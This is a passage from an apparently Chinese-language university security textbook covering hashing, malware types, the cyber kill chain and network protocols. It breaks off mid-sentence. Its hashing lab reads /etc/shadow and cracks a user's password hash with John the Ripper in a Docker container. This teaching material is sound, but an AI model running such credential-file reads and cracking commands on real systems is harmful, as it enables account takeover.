[Bitboy](https://commons.wikimedia.org/wiki/File:Bitcoin_logo.svg)，公共领域，通过 Wikimedia Commons 提供

很难在不提及区块链的情况下讨论密码学，区块链是加密货币背后的概念之一。区块链是一个共享账本（在 BitCoin 的情况下是交易记录），块不断被添加到其中以增加存储的信息。定期会创建一个新块，其中包含前一个块的哈希值以及自身的哈希值，供下一个块引用。通过检查这些哈希值，您可以证明每个块及其位置的完整性，从而创建一个公开可用、双方认可的网络发生事件记录。通常，为了防止不良行为者添加块，在将块添加到链中时，必须包含某种工作量证明（一种数学上困难的操作）或权益证明（对网络投资的记录）。

### 2.10.7. 可信平台模块（`TPM`）/ 硬件安全模块（`HSM`）

这些模块提供专门用于加密的硬件。`HSM` 是可移除模块，而 `TPM` 是主板芯片。许多密码依赖于可靠的熵源（随机性），这些模块提供了这种熵源。它们还可以通过将操作移至专用硬件，显著提高加密算法的运行速度。最后，这些模块可用于存储密钥，并仅通过模块访问它们。这可以增加一层安全性，防止密钥被轻易复制。


### 2.10.8. 隐写术

隐写术是将数据隐藏在某物中的过程，使得普通观察者无法检测到。数据可以隐藏在音频、图像，甚至 [纯文本！](https://dl.packetstormsecurity.net/crypt/snow/description.html) 中。如果需要额外的安全层，隐藏的数据也可以被加密。在安全领域，恶意代码可能使用隐写技术隐藏在其他文件中。这使得工具在搜索存储时更难找到它们。

## 2.11. 实验：哈希它

一个 `hash` 是一种单向加密函数，它为给定的 `message` 生成一组 `unique` 的字符。在理想世界中，给定一个哈希，你应该 `不` 能确定原始消息是什么，但给定一个哈希和原始消息，你可以检查哈希是否与消息匹配。在深入探讨哈希的用途之前，让我们通过查看一个简单且因此糟糕的哈希算法来进一步理解它。^(\[³)

**变位词哈希**

假设我们想要对消息 "Hello from Karl" 进行哈希处理，以便我们可以拥有一个唯一代表该短语的字符串。一种方法是删除消息中的所有标点符号，将所有内容转换为小写，然后按字母顺序排列所有字母。"Hello from Karl" 变成 "aefhklllmoorr"。你可以把它想象成说，“消息中有一个 'a'，消息中有一个 'e'，消息中有一个 'f'，消息中有一个 'k'，消息中有三个 'l'……” 现在我们的哈希 "aefhklllmoorr" 可以用来唯一标识该短语。

现在假设 Karl 想要给我们发送一条消息，但他不信任发送消息的人。他可以使用不可信的一方来发送消息，然后将哈希放在某个公共地方，比如网站上。我们可以使用哈希来知道消息来自 Karl `并且` 如果其他人得到了哈希，他们将无法辨别消息，因为哈希是一种单向函数。"aefhklllmoorr" 透露了关于消息的很少信息，但它可以用来检查其准确性。

希望这开始展示哈希的威力。现在让我们来看看另一种非常常见的用例，并找出为什么这是一个糟糕的算法。

假设你运行一个网站，用户使用密码登录。你想确保用户在登录时使用他们的密码，但你不想在网站上存储密码。这很常见。如果你的网站被攻破，你不想泄露一大堆人的密码。你该怎么办？你可以存储他们密码的哈希，在尝试登录时对密码进行哈希处理，并比较哈希。例如，如果我们的密码是 "password"，使用我们的基本哈希算法，哈希将是 "adoprssw"。我们可以将 "adoprssw" 存储在数据库中，在登录期间用于比较，如果有人偷了数据库中的数据，他们将不知道原始密码是 "password"。这可能防止攻击者利用许多人在多个网站上使用相同密码的事实。

问题是，有很多东西哈希为 "adoprssw"，包括 "wordpass"、"drowsaps"，甚至我们正在存储的哈希："adoprssw"。当多个消息具有相同的哈希时，这被称为 `collision`，这个特定的算法是无用的，因为它生成了太多的碰撞。

现在我们了解哈希的作用以及它们在一定程度上如何实现，让我们来看看一个更有用的哈希函数。

**MD5**

在本节中，我们将使用 Docker 和终端。[请按照这些说明安装 Docker。](https://docs.docker.com/get-docker/) 对于 Windows，你可以使用 [Windows Terminal 应用](https://www.microsoft.com/en-us/p/windows-terminal/9n0dx20hk701)，在 MacOS 上你可以使用预安装的 Terminal 应用。灰色框显示在终端中输入的命令，尽可能显示典型输出。你的提示符（命令前显示的部分）可能因操作系统而异。

首先在自定义 Linux 容器上运行 BASH shell：

```
ryan@R90VJ3MK:/windir/c/Users/rxt1077/it230/docs$ docker run -it ryantolboom/hash ①
root@8e0962021f85:/②
```

1.  *①* 这里我们正在交互式地使用 Docker run 命令（-it），因为该容器默认运行 bash

2.  *②* 注意新的提示符，显示我们在这个容器上是 root

MD5 是一种消息摘要算法，它产生的哈希比我们的变位词算法好得多。大多数 Linux 发行版包含一个简单的实用程序，用于基于文件内容创建 MD5 哈希。这个命令名为 `md5sum`。通常用于检测文件是否被篡改。网站可能提供下载软件的链接以及文件的 MD5 哈希，以便你知道下载的内容是正确的。同样，安全系统可能会保留某些关键文件的 md5sums（MD5 哈希），以确定它们是否被恶意软件篡改。让我们练习对 `/etc/passwd` 文件进行 md5sum：

```
root@8e0962021f85:/# md5sum /etc/passwd
9911b793a6ca29ad14ab9cb40671c5d7  /etc/passwd ①
```

1.  *①* 这一行的第一部分是 MD5 哈希，第二部分是文件名

现在我们将创建一个包含 *你* 的名字的文件，并将其存储在 `/tmp/name.txt` 中：

```
root@8e0962021f85:/# echo "<your_name>" >> /tmp/name.txt ①
```

1.  *①* 用你的实际名字替换 `<your\_name>`

作为我们的最后活动，让我们来看看哈希的一些弱点。

**哈希破解**

Linux 系统中的密码被哈希并存储在 `/etc/shadow` 文件中。让我们打印该文件的内容来看看它的样子：

```
root@7f978dd90746:/# cat /etc/shadow
root:*:19219:0:99999:7:::
daemon:*:19219:0:99999:7:::
bin:*:19219:0:99999:7:::
sys:*:19219:0:99999:7:::
sync:*:19219:0:99999:7:::
games:*:19219:0:99999:7:::
man:*:19219:0:99999:7:::
lp:*:19219:0:99999:7:::
mail:*:19219:0:99999:7:::
news:*:19219:0:99999:7:::
uucp:*:19219:0:99999:7:::
proxy:*:19219:0:99999:7:::
www-data:*:19219:0:99999:7:::
backup:*:19219:0:99999:7:::
list:*:19219:0:99999:7:::
irc:*:19219:0:99999:7:::
gnats:*:19219:0:99999:7:::
nobody:*:19219:0:99999:7:::
_apt:*:19219:0:99999:7:::
karl:$y$j9T$oR2ZofMTuH3dpEGbw6c/y.$TwfvHgCl4sIp0b28YTepJ3YVvl/3UyWKeLCmDV1tAd9:19255:0:99999:7::: ①
```

1.  *①* 如你所见，`karl` 用户在其用户名后面有一个长哈希

哈希的一个问题是，如果人们选择简单的密码，它们可以被一个程序轻松破解，该程序获取常见密码的单词列表，生成它们的哈希，然后检查哈希是否相同。虽然哈希可能是一种单向函数，但它仍然受到这种攻击的影响。我们将使用一个名为 [John the Ripper](https://www.openwall.com/john/) 的程序，并做 exactly 那样。

John the Ripper 已经安装在这个容器中，并附带一个简单的单词列表。我们将告诉它使用默认单词列表来尝试确定与 `/etc/shadow` 中 karl 的哈希匹配的密码是什么：

```
root@8e0962021f85:/# john --format=crypt --wordlist=/usr/share/john/password.lst /etc/shadow
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
<karl's password>             (karl)
1g 0:00:00:01 100% 0.6211g/s 178.8p/s 178.8c/s 178.8C/s lacrosse..pumpkin
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```


鉴于密码在包含的常见密码单词列表中，即 `/usr/share/john/password.lst`，你会很快发现 John the Ripper 能够破解 karl 的密码。John the Ripper 也可以遍历所有可能的字符组合进行增量破解，但这需要花费更长时间。为了使这类攻击更加困难，`/etc/shadow` 中的每个哈希值都是基于一个随机数构建的。这个数字被称为 `salt`，并与哈希值一起存储。这意味着，破解工具不能只对单词列表中的每个单词尝试一个哈希值，而必须对单词列表中的每个单词尝试每一种可能的 salt，这会显著减慢速度。现代哈希破解工具可能会使用 [彩虹表](https://en.wikipedia.org/wiki/Rainbow_table)，这样所有可能的哈希值都已预先计算完成。这些表可能会占用数 TB 的磁盘空间，但能让即使是复杂哈希的破解也变得简单得多。

让我们使用名为 `crypt` 的自定义实用程序来证明我们拥有实际密码。该实用程序已安装在你的容器中。我们将先打印出 `/etc/shadow` 中包含 karl 信息的那一行。我们将使用 `grep` 命令将输出限制为包含 `karl` 的内容：

```
root@7f978dd90746:/# cat /etc/shadow | grep karl
karl:$y$j9T$oR2ZofMTuH3dpEGbw6c/y.$TwfvHgCl4sIp0b28YTepJ3YVvl/3UyWKeLCmDV1tAd9:19255:0:99999:7:::
```

shadow 行的第一部分是用户名，即 karl。shadow 行的下一部分，紧跟在第一个冒号之后，是哈希信息。第一组 `$` 之间的字符是所使用的哈希算法版本，在我们的例子中，`y` 表示 yescrypt。第二组 `$` 之间的字符是传递给 yescrypt 的参数，对我们来说始终是 `j9T`。第三组 `$` 之间的字符是你的 salt。最后，第四组 `$` 之间的字符是哈希值。

`crypt` 实用程序调用系统 [`crypt`](https://man7.org/linux/man-pages/man3/crypt.3.html) 命令并打印输出。让我们使用我们破解的密码以及 `/etc/shadow` 中哈希信息的前三部分来运行此实用程序。如果一切顺利，你应该看到与 `/etc/shadow` 中内容匹配的哈希输出：

```
root@7f978dd90746:/# crypt <karl's password> '$y$j9T$oR2ZofMTuH3dpEGbw6c/y.'
$y$j9T$oR2ZofMTuH3dpEGbw6c/y.$TwfvHgCl4sIp0b28YTepJ3YVvl/3UyWKeLCmDV1tAd9
```

1. ① 不要忘记使用你实际破解的密码，并将哈希信息放在单引号中

## 2.12. 复习问题

对称加密和非对称加密有什么区别？分别给出一个常见的应用场景。

什么是哈希，它用于什么？哈希在区块链中是如何使用的？

流密码和分组密码有什么区别？分别给出一个常见的应用场景。

# 3. 恶意软件

## 3.1. 什么是恶意软件？

恶意软件是 `malicious` 和 `software` 这两个词的合成词。该术语用于描述许多不同类型的 `intentionally malicious` 程序。恶意软件与普通糟糕软件之间的关键区别之一在于其创建的意图性。恶意软件旨在损坏或利用计算机系统。它通常会监视、垃圾邮件或以其他方式损坏目标或主机机器。

## 3.2. 恶意软件目标


# 按操作系统划分的恶意软件分发情况（2020 年第一季度）

Windows 操作系统是恶意软件最受欢迎的目标，差距相当大。这很大程度上是因为它作为桌面操作系统的普及程度。第二大目标是 Web 浏览器，它们为恶意软件提供了独特的跨平台覆盖范围。第三大目标是 Android 移动操作系统，虽然在技术上它是 Linux，但主要在手机上运行。Linux 和 Mac 受到的恶意软件关注较少。这可能部分是由于 Linux 的开源性质以及 Mac 使用的 BSD 内核，但也部分是由于这两种操作系统各自缺乏普及度。恶意软件通常被广泛分发，这意味着它可以只针对最流行/可能最薄弱的环节，并且仍然可以取得成功。

## 零日漏洞

现代操作系统采用多层安全措施，以确保程序无法访问敏感信息或应用程序。这通常意味着，为了使恶意软件有效，它需要提升其权限。最有效的恶意软件可以在不需要用户交互的情况下执行权限提升。为此，恶意软件可能依赖于新的/未记录的漏洞或安全漏洞。这些已披露“零天”的新漏洞因此被称为零日漏洞。零日漏洞非常强大，可能会被 APT/犯罪团伙囤积，或在暗网上以数百万美元的价格出售。

# 3.3. 恶意软件类型

恶意软件的定义非常广泛，并且每天都在创建新的恶意软件。这可能使恶意软件分类变得困难。在介绍一些基本类型时，请记住存在显著的重叠。例如，您可能会遇到作为病毒分发的勒索软件，或者作为木马分发的勒索软件。它是勒索软件这一事实并不排除它也可能是其他类型的恶意软件。

## 3.3.1. 蠕虫、病毒和木马

蠕虫是自我传播的程序，无需用户交互即可传播。其代码通常存储在独立对象中，例如隐藏的可执行文件。蠕虫通常不会严重损坏其宿主，因为它们关注的是快速、指数级的传播。

### Stuxnet

Stuxnet 是一种 2010 年的蠕虫，专门针对伊朗核设施。该蠕虫使用了前所未有的四个零日攻击，并设计为通过 USB 闪存驱动器和远程过程调用（RPC）传播。因此，它不仅依赖网络来传播。最终，Stuxnet 的有效载荷针对用于编程 PLC 设备的代码，这些设备控制电机并使其旋转速度过快，从而破坏离心机。Stuxnet 还使用了一个令人印象深刻的 rootkit 来掩盖其踪迹。鉴于 Stuxnet 的复杂程度，据信它是由美国和以色列开发的。

病毒通常需要用户交互，例如将受感染的文件从一台机器复制到另一台机器，并将其代码存储在机器上的另一个文件中。可执行文件可能会被感染，方法是将病毒代码添加到一个单独的页面，该页面在标准程序代码之前执行。病毒对宿主可能造成相当大的损害，因为它们可能需要大量资源来在本地传播。“病毒”一词也是一个不幸被过度使用的术语。由于其流行程度，一些低技能威胁行为者经常用它来指代许多不同类型的恶意软件。

##### 概念病毒

Concept 病毒是第一个 Microsoft Word 宏病毒的示例。该病毒隐藏在 Microsoft Word 文件中，并使用 Word 的嵌入式宏语言来执行其复制任务。后来为 Excel 和其他具有足够复杂但最终不安全的内部脚本语言的程序创建了病毒。

木马是一种伪装成合法软件的恶意软件。它不必像依赖软件漏洞那样依赖于利用用户来安装、运行或向恶意代码授予额外权限。木马是最流行的恶意软件类型，因为它们可以作为许多其他有效载荷的攻击向量。这个名字来自希腊神话，其中特洛伊木马被伪装成礼物并送给一个被围困的城镇。巨大的木马内部有秘密部队，他们在半夜出来并打开了城镇大门。

### Emotet

Emotet 是一种 2014 年的银行木马，通过电子邮件传播。它使用恶意链接或启用宏的文档来使用户下载其代码。Emotet 是目前最昂贵和最具破坏性的恶意软件之一，平均每次事件修复成本约为一百万美元。它继续被调整以避免检测，并利用更加复杂的恶意软件。

## 3.3.2. 勒索软件

Wana Decrypt0r 截图在合理使用条款下使用

勒索软件是一种加密文件并要求支付赎金以解密文件的恶意软件。现代勒索软件使用对称加密快速加密文件，然后使用硬编码的公钥非对称加密对称密钥，威胁行为者持有相应的私钥。当支付赎金时，通常通过加密货币，威胁行为者可以使用其私钥解密对称密钥，用户可以使用对称密钥解密文件。

勒索软件被视为数据泄露，因为数据通常也会被外泄。还值得注意的是，当支付赎金时，无法保证威胁行为者实际上会开始解密过程。勒索软件的典型目标包括企业基础设施和医疗保健系统，尽管勒索软件也可能被不加区分地传播。赎金支付可以成为一项大规模的赚钱企业，因此许多 APT 或犯罪团伙可能会使用它。勒索软件被认为是当今网络稳定性最大的威胁。

## 3.3.3. 间谍软件

专门用于间谍活动/数据窃取的恶意软件称为间谍软件。与勒索软件一样，间谍软件也可以为威胁行为者带来金钱回报。行为者可能会使用敲诈勒索来要求付款，否则数据将被泄露。这通常意味着要么在暗网上出售，要么公开发布。再次，鉴于金钱收益的可能性，间谍软件通常与犯罪团伙相关联。APT 也可能使用间谍软件来获取国家重要的秘密。

客户数据、商业秘密、专有数据和政府机密都是间谍软件的目标。即使在政府系统之外，在企业环境中，间谍软件仍然是一个主要威胁。

#### 无文件恶意软件

恶意软件通常通过扫描存储以查找与特定哈希匹配的文件，或通过查看文件以查看它们是否包含特定模式来检测。这两种检测技术都依赖于恶意软件存储在文件中。无文件恶意软件试图通过在文件系统中不留下任何痕迹来避免检测。这种类型的恶意软件使用合法进程将自身加载到内存中，通常会创建一个注册表项，以便在机器重新启动时重新加载。这创建了一种持久且难以检测的恶意软件类型，通常由复杂的威胁行为者（如 APT 和犯罪团伙）使用。

## 3.3.4. 加密劫持

利用工作量证明算法的加密货币使程序将处理器周期转换为钱变得前所未有地容易。某些类型的恶意软件利用这一点，在用户的机器上后台挖掘加密货币。这种对电力和资源的窃取可以为恶意软件分发者带来收入，当挖矿资金存入其在线钱包时。

加密劫持比以往任何时候都更流行，尤其是考虑到已经创建了大量受感染机器的僵尸网络。加密劫持为恶意行为者提供了一条更简单的货币化路径，他们可能已经控制了许多受感染的机器。

## 3.3.5. Rootkit

Rootkit 是一种秘密程序，旨在为系统提供后门访问权限。它们设计为保持隐藏，甚至可能主动禁用或规避安全软件。由于其底层特性，许多 rootkit 很难检测，甚至更难删除。

Rootkit 通常根据其隐藏的层进行分类：

- 固件 Rootkit：固件是硬件设备用于运行的代码。它通常是一组用于设置和与设备交互的薄层命令。固件 rootkit 可能驻留在主板的 BIOS 中，并且可能非常难以删除。
- 引导加载程序 Rootkit：引导加载程序通过将内核加载到内存中来准备系统引导操作系统内核。引导加载程序 rootkit 可能会劫持此过程，将自身加载到单独的内存空间中，或操纵正在加载的内核。
- 内核模式 Rootkit：许多操作系统内核（包括 Linux）都有能力加载动态模块。这些内核模块对操作系统内核操作具有完全访问权限。内核模式 rootkit 很难在运行时检测，因为被指示检测 rootkit 的操作系统内核已不再可信。
- 应用程序 Rootkit：应用程序或用户模式 rootkit 通常作为在后台运行并具有管理权限的应用程序安装。这些 rootkit 通常最容易开发和部署，不需要对系统使用的硬件有底层知识，但它们也是最容易检测和删除的。

#### Sony Rootkit

2005 年，Sony 发布了带有应用程序 rootkit 的音乐软件 CD，该 rootkit 设计为在 Microsoft Windows 系统上运行。该 rootkit 在后台持续运行，减慢系统速度，并且没有卸载程序来删除该程序。它旨在防止操作系统从音频 CD 复制信息，但它也打开了几个安全漏洞，可能被其他恶意软件利用。最终，该 rootkit 导致针对 Sony BMG 的多起集体诉讼，并与联邦贸易委员会达成和解，要求 Sony 向报告因 rootkit 造成损害的客户进行赔偿。

## 3.3.6. 僵尸网络

僵尸网络是由单一方控制的受感染主机网络。这些主机可能是台式计算机、服务器，甚至是物联网（IoT）设备。僵尸网络通常用于大规模分布式拒绝服务（DDoS）攻击，其中攻击的性质是让许多机器向单个机器发送流量。僵尸网络也可用于发送垃圾邮件，因为它们对 SMTP 电子邮件中继的访问可能因其互联网服务提供商（ISP）而异。

机器人通常通过命令和控制（C2，C&C）服务器进行控制。虽然此 C2 服务器可能使用自定义协议，但现代僵尸网络更典型地依赖于其他基础设施。C2 流量可以使用 SSH、HTTP、互联网中继聊天（IRC）甚至 Discord 向机器人发送命令并从机器人接收数据。

## 3.3.7. RAT

RAT 代表远程访问木马，用于获得对远程目标的完全访问和控制权。恶意软件分发者可以浏览计算机上的文件、发送按键和鼠标移动、查看屏幕，以及/或监控来自麦克风和摄像头的输入。RAT 通常会主动绕过安全控制，因此可能难以检测。

## 3.3.8. 广告软件 / 可能不需要的程序 (PUP)

广告软件是旨在跟踪用户行为并传递不需要的、有时具有侵入性的定向广告的恶意软件。广告软件可能会减慢系统速度，并/或在网站上添加广告墙。这种类型的恶意软件通常针对用户的 Web 浏览器。

可能不需要的程序 (PUP) 通常作为另一个程序的安装的一部分下载。常见的 PUP 包括浏览器工具栏、PDF 阅读器、压缩实用程序或浏览器扩展。这些程序可能包含广告软件/间谍软件组件，也可能减慢系统速度。

# 3.4. 妥协指标

妥协指标 (IoC) 是具有高度置信度的工件，指示入侵。它是判断机器是否成为恶意软件受害者的一种方法。安全专业人员公开传达 IoC，以帮助减轻恶意软件的影响。

## 常见 IoC 类型

- 哈希：已知为恶意的文件的哈希值。这有助于识别木马和蠕虫。
- IP 地址：跟踪恶意软件连接的 IP 地址可以用于确定机器是否被感染。
- URL/域：跟踪恶意软件使用的 URL 或域也可以用于确定机器是否被感染。
- 病毒定义/签名：可执行文件和其他文件可以扫描特定字节序列，这些序列特定于特定病毒。通过这种方式，即使恶意软件隐藏在另一个文件中，仍然可以检测到它。

## 3.5. 恶意软件分发

恶意软件通常通过社会工程学分发，即说服组织内的某个行为者下载并运行或点击某些东西。它也可以通过渗透某个依赖的软件包、供应链，或可能通过公开暴露服务上的软件漏洞来分发。下面详细介绍了一些最常见的传播恶意软件的方式。

## 3.5.1. 钓鱼

钓鱼涉及通过欺诈性消息与某人通信，以努力使他们执行会伤害他们的行为。它分为五个主要类别：

- 矛头钓鱼：发送针对特定企业或环境的钓鱼电子邮件或其他通信。这些消息可能包含有关组织内部运作的信息，以试图证明其有效性。它们也可能利用特定组织中已知的不安全做法。矛头钓鱼不是您常规的广撒网式钓鱼尝试，而是更多地是一种有针对性的、定制的、定制的活动。
- 猎鲸：针对组织中高级别人员。猎鲸通常与矛头钓鱼结合使用。
- 短信钓鱼：使用 SMS 消息进行钓鱼。
- 语音钓鱼：使用语音消息进行钓鱼。
- 钓鱼网站：威胁行为者可以尝试通过从非业务相关通信渠道获得的信息来获得未经授权的访问。例如，恶意行为者可能知道 CEO 经常光顾一个流行的帆船论坛。这些行为者可以在帆船论坛上设置一个帐户，向 CEO 发送私信以获取信息。

## 3.5.2. 垃圾邮件

垃圾邮件包含大量未经请求的电子邮件。这些电子邮件可能是恶意的，也可能只是广告。无论哪种情况，垃圾邮件占所有电子邮件的近 85%。值得注意的是，有时通过垃圾邮件分发的恶意软件实际上被用于通过受害者的机器发送更多垃圾邮件。反垃圾邮件战争在不断演变，尽管我们发送电子邮件的方式已经做出了许多更新，但许多改进尚未实现。

### 3.5.3. 垃圾箱搜寻

最终可能导致恶意软件传播的信息也可以在处理不当的垃圾中找到。旧记录或硬盘可能包含企业机密或凭据，这些凭据会给某人带来未经授权的访问。正确处理敏感信息很重要，确保所有需要销毁的东西都被彻底销毁。

## 3.5.4. 偷窥

PIN、密码和其他数据也可以通过简单地从某人肩膀上方查看来恢复。这些凭据可能是攻击者传播恶意软件所需的“入口”。借助光学设备（如双筒望远镜），偷窥甚至可以在远距离发生。隐私屏幕（限制您可以看到显示器的角度）有助于减轻这种类型的攻击。

## 3.5.5. 跟尾

跟随持有凭据进入安全地点的人被称为跟尾。通常，人们甚至会为手里拿满东西的人扶住安全门。想要帮助他人是人性，但你也必须记住，你身后的人可能带着一个准备在一旦他们进入大楼并获得对机器的物理访问权限后立即部署的恶意软件 USB 密钥。

### 3.5.6. 冒充/身份盗窃

通常作为钓鱼活动的一部分，威胁行为者会假装是另一个人。这可能是组织内部的人，或者是组织外部拥有足够权力的人，例如政府监管机构的代表。攻击者也可能使用被盗凭据来使其消息看起来官方，再次为他们提供了一条轻松的路径来部署恶意软件。

# 3.6. 网络杀伤链

分析涉及恶意软件的攻击的一种方法是通过网络杀伤链的步骤。网络杀伤链由洛克希德·马丁公司开发，是一种被网络安全采用的军事分析方法。网络杀伤链分为七个步骤：侦察、武器化、投递、利用、安装、命令和控制、外泄。

## 3.6.1. 侦察

侦察是侦察的缩写，是军事术语，指用于获取信息的初步调查。在侦察阶段，恶意行为者会尽可能收集大量信息。此阶段使用的方法可能是被动的或主动的。

被动侦察涉及在不向目标发送任何内容的情况下收集信息。这通常涉及访问公开可用的信息，例如社交媒体、发布的网站和 DNS 记录。如果行为者有权访问，他们也可以被动嗅探网络数据包。

主动侦察涉及与目标交互。这可能包括端口扫描、漏洞扫描、对 HTTP 服务器上的目录和文件名进行暴力破解，甚至联系员工。主动侦察可以产生更多信息，但也更容易被检测到。

## 3.6.2. 武器化

在武器化阶段，行为者开始准备在侦察期间评估过的漏洞的利用程序。这可能包括定制恶意软件、创建钓鱼电子邮件、定制工具以及为攻击准备环境。为了使恶意软件有效，它必须利用正确的漏洞，并在正确的操作系统和环境下工作。Metasploit 是一个渗透测试框架，通常在此步骤中用于创建自定义恶意软件。

### 3.6.3. 投递

在投递阶段，恶意软件被交付给目标。通常会采取措施绕过检测系统。投递可能涉及发送链接到恶意软件的电子邮件，或利用易受攻击的服务器来运行恶意软件。在此阶段结束时，攻击者通常会等待恶意软件通过命令和控制通道的回调。

## 3.6.4. 利用

从技术上讲，利用步骤发生在恶意软件成功执行后。在许多情况下，这几乎不需要攻击者的交互。一旦恶意软件被激活或漏洞的有效载荷被执行，受害者就完成了利用步骤。

## 3.6.5. 安装

安装步骤通常由恶意软件在运行后执行。恶意软件安装自身，隐藏自身，并设置持久性（停止后重新启动的能力）。恶意软件可能会提升权限或横向移动。它还可能从远程服务器安装第二阶段的其他有效载荷。一种常见的策略是将下载的代码注入现有进程，以掩盖哪个进程正在执行可疑操作。

## 3.6.6. 命令和控制 (C2, C&C)

恶意软件将通过其命令和控制通道寻求更多指令。此时，攻击者可能会与恶意软件交互，向其发送其他命令。C2 流量通常设计为与现有流量融合，不引起注意。

## 3.6.7. 外泄 / 行动与目标

最后一步涉及从受攻击的系统获取数据，或以其他方式禁用/滥用系统。此时，攻击者可以使用 C2 通道从系统中提取敏感信息，例如信用卡信息、密码哈希等。需要注意的是，数据外泄可能不是攻击的唯一目标。攻击者还可以禁用系统、利用系统实施欺诈、挖掘加密货币等。此时，恶意行为者完全控制受攻击的系统。

# 3.7. 实验：恶意软件分析

Any Run 网站提供免费的交互式恶意软件分析。我们将使用此网站来避免在虚拟机中运行恶意软件的复杂性。

首先访问 Any Run 并使用您的 NJIT 电子邮件地址注册帐户。一旦您通过电子邮件激活帐户，请按照教程学习如何分析威胁。使用 Any Run 提供的演示示例任务。按照提示并观看进程树的变化。请随意花时间，即使时间过期后，您仍然可以查看正在运行的进程并分析 HTTP 请求、连接、DNS 请求和威胁。

对于本实验，我们将查看 Emotet 的示例，这是一种 2014 年发现的银行木马。在 Any Run 网站的左侧，单击“公共任务”并搜索 md5 值 0e106000b2ef3603477cb460f2fc1751。选择一个示例（共有三个）并查看截图，以了解恶意软件的运行方式。查看网络流量进程也可能有所帮助。

单击右上角的“重启”以实时运行虚拟机。执行触发恶意软件所需的操作，根据需要添加时间。最后在虚拟机中打开记事本，输入您的姓名，并拍摄一个独特的截图。

提交您虚拟机的独特截图

使用 Any Run 工具分析您选择的恶意软件。

在提供的文本框中回答以下问题：

- 这种恶意软件做了什么来确保它始终在后台运行？
- 为什么恶意软件通常被放在存档文件中，而不是作为简单的可执行文件分发？
- 这种恶意软件尝试连接到哪些 IP 地址？
- 这种恶意软件解析任何 DNS 地址吗？您怎么知道？
- 您如何唯一地将此文件识别为恶意软件（要具体，具体到足以让恶意软件扫描器找到它）？
- 什么是 IoC，这种恶意软件的 IoC 是什么？

# 3.8. 复习问题

- 为什么 APT 可能会选择使用无文件恶意软件，而不是从机器上的文件运行的恶意软件？
- 什么是 IoC？给出一个示例。
- 什么是钓鱼？钓鱼的五种类型是什么？给出每种类型的示例。

# 4. 协议

协议可以被视为规定通信的规则。协议可能包括有关使用的语法、错误校正、同步或任何其他方面的信息，即在该情况下通信如何发生。在计算机安全中，彻底了解常见协议非常重要，因为它们的弱点往往决定了攻击如何以及是否会发生。协议既存在于硬件也存在于软件中，并由个人和组织开发。早期的网络协议通常通过邮件列表使用请求评论（RFC）开发。您可能仍然会看到正在起草、引用或积极处理的 RFC。一些最早的 Web 协议在 RFC 中有详细说明。通常，大型协议都有工作组和协会进行开发，例如电气和电子工程师学会（IEEE）中的 802.11 组，它处理 WiFi 协议。这些组发布论文，详细说明协议的工作原理。

本章将按照 TCP/IP 分层模型简要介绍重要协议。需要注意的是，某些协议可能跨越层级来完成任务。在这种情况下，它们将根据其主要功能所在的层级进行分组。

## 4.1. 网络访问层

### 4.1.1. ARP

地址解析协议 (ARP) 用于本地以太网段，以将 IP 地址解析为 MAC 地址。由于该协议在以太网段级别运行，安全性并非主要关注点。不幸的是，这意味着 ARP 通信很容易被欺骗，从而导致中间人（MitM）场景。恶意行为者只需发送几个 ARP 数据包，即免费 ARP，声称某个 IP 地址的流量应发送给他们。由于 MAC 到 IP 地址表在多个位置缓存，所有缓存失效并解决由恶意 ARP 帧引起的问题可能需要很长时间。

有一种协议旨在缓解 ARP 的问题。动态 ARP 检查 (DAI) 跨越层级，与 DHCP 租约数据库协同工作，丢弃未使用在授予 DHCP 租约时使用的 MAC 地址的数据包。虽然这可以解决与 ARP 相关的许多问题，但使用 HTTPS 等安全的高级协议也是一种良好的做法，以防万一。

### 4.1.2. Wifi

我们最关心的 WiFi 协议是用于加密数据的安全标准。由于无线协议的性质，网络上发送的信息对任何拥有天线的人都可用。这些 WiFi 安全标准是保护您的网络流量免受传输范围内任何人查看的唯一东西。目前有四种标准：

- WEP：有线等效隐私（WEP）已弃用，不应使用。它开发于 1999 年，使用 RC4 流和 24 位加密。已经开发出几种攻击，可以在几秒钟内破解 WEP。
- WPA：WiFi 保护访问（WPA）使用临时密钥完整性协议（TKIP）来更改正在使用的密钥。这种 128 位加密方法也已被破解，该协议不应使用。
- WPA2：WiFi 保护访问 2（WPA2）使用 AES 加密，目前是最流行的标准。WPA2 仍然被认为是安全的。
- WPA3：WiFi 保护访问 3（WPA3）开发于 2018 年，目前被认为是最先进的。许多网络正在开始从 WPA2 过渡到 WPA3。

## 4.2. 互联网层协议

### 4.2.1. IP

IP 代表互联网协议，它被设计用于创建网络的网络。主要使用它的网络网络是互联网，尽管您也可以在其他场景中使用 IP。IP 主要关注跨网络和向网络路由流量。该协议最初由 IEEE 在 1974 年详细说明，源自高级研究计划署网络（ARPANET）项目，该项目创建了第一个大型分组交换网络。

大多数人都熟悉 IP 地址，即参与 IP 网络的主机分配的唯一编号。目前 IP 协议有两个主要版本，IPv4 和 IPv6，主要区别之一在于可用 IP 地址的数量。IPv4 支持 32 位地址，IPv6 支持 128 位地址。为了让您了解这是多么大的变化，我们目前已分配所有可能的 IPv4 地址，但使用 IPv6，我们可以给地球海滩上的每一粒沙子分配一个地址，而且仍然不会用完。

##### IPv6 安全影响

从安全角度来看，IPv4 和 IPv6 中地址的使用方式有重大后果。由于 IPv4 地址不足，典型的互联网用户被分配一个本地地址，当他们通过路由器路由数据包时，该地址会被转换为外部 IPv4 地址。这被称为网络地址转换（NAT），通常由一体化设备处理，该设备还确保外部实体无法连接到内部网络。

使用 IPv6 地址时，同一内部网络上的每个主机都可以分配一个外部 IPv6 地址。基本的 IPv6 路由器可能只是将数据包传递到网络，而不阻止对内部网络的连接。如果机器没有加固或没有部署/启用防火墙，机器可能会受到攻击。

作为计算机安全专家，不仅要测试 IPv4 连接，还要测试 IPv6，以确保您的网络配置得当。

### 4.2.2. ICMP

互联网控制消息协议 (ICMP) 主要用于在 IP 不起作用时在系统之间发送消息。例如，假设我们尝试连接到一台主机，但我们的路由器不知道如何到达那里。我们的路由器可以向我们发送 ICMP 目标不可达消息，以告知我们出了问题。由于 ICMP 消息在网络层工作，即使互联网层有问题，我们也会收到此消息。

ICMP 最常见的用途是 ping 命令。ping 向主机发送 ICMP 回显请求，以检查主机是否可用。通过用请求中包含的数据响应请求，我们可以假设主机已启动并正常运行。

ICMP 也用于 traceroute 命令。traceroute 逐步增加 ICMP 数据包的生存时间 (TTL) 字段，并监视 TTL 超时消息，以确定数据包到达主机所走的路由。traceroute 输出示例如下所示：

```
